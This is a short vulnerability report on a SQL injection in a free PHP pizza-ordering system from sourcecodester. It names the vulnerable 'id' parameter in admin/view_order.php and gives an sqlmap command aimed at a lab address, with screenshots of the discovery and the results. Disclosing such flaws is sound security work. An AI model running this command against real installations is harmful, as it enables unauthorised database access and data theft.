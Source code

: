 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220946038-2b3a61d0-4630-40b5-9470-cc769754de9d.png)


exp

```
sqlmap.py -u "http://192.168.31.50/php-opos/admin/view_order.php?id=1"
```

![image](https://user-images.githubusercontent.com/30823782/220946092-b6a62e67-56b0-4c59-9a53-8f18cbbb2f14.png)
